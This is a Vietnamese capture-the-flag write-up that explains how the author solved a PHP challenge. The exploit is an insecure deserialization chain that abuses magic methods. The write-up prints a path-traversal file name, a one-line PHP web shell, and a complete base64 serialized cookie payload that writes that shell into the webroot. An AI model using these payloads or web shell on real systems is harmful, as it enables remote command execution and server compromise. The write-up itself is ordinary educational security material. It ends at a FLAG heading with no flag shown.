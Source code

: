 # Pokemon Hof Panel Level 2 

> bài này sau khi giải kết thúc thì mình đọc wu của các anh thì mới ngộ ra ( lúc làm mình đã có ý tưởng nhưng mà ẩu quá nên bỏ :> gà quá huhu)

Bài này thì cơ bản vẫn giống bài level1 nhưng bài này yêu cầu chúng ta RCE dựa vào các method_magic trong php như *__contructer*, *__destructer*, *__toString*

chúng ta cùng nhìn vào *class Utils*

![Alt text](image.png)

bạn đấy hàm to_String() , nó tự gọi hàm  writelog() , khi mà object của mình được sử dụng như một String , nhìn vào đây :

```
  file_put_contents("/tmp/logs/".date('H_i_s').$this->logfile, $this->error);
```
tham số 1 chính là postion mà log file được lưu , tham số thứ hai là content của file đó 
nếu như giờ phần content đó là shell code và file name là file PHP thì mình đã RCE được đúng không ? 
Vấn đề nằm ở đây là : 
   - Làm sao back folder vì tmps/logs :  người dùng bình không vào được ? 
   vậy payload cần truyền vào đoạn đó là :  
   ```
   ../../../../../var/www/html/khanh.php
   ```
bởi vì server là apache **Server: Apache/2.4.57 (Debian)**
  - Shell code : 
  ```
  <?php   system(\$_GET['cmd']); ?>
  ```
  - Làm sao trigger được *__ToString()* chạy được , ( mình  bị ngu đoạn này trong thời gian giải diễn ra @@ ), để ý src của  nó thì thấy khi isChampion của user -> true thì mình vào được và nó có nối chuỗi với $user->name ( sẽ ra sao nếu $user->name của mình chính là object của class Utils -> có phải nó sẽ trigger được toString không ?)
  tiến mình ghép các payload lại hoàn chỉnh như sau  : 

  ![Alt text](image-1.png)

  ```
 payload : Tzo3OiJUcmFpbmVyIjozOntzOjQ6Im5hbWUiO086NToiVXRpbHMiOjI6e3M6NToiZXJyb3IiO3M6MzE6Ijw/cGhwICBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4iO3M6NzoibG9nZmlsZSI7czozNzoiLi4vLi4vLi4vLi4vLi4vdmFyL3d3dy9odG1sL2toYW5oLnBocCI7fXM6Nzoic3RhcnRlciI7TjtzOjEwOiJpc0NoYW1waW9uIjtiOjE7fQ==
  ```
  giờ lấy nó thay vào biến cookie và send là chúng ta sẽ up được shell code 

  ![Alt text](image-2.png)
  
  giờ thì lấy flag ra thôi !

  # FLAG 
  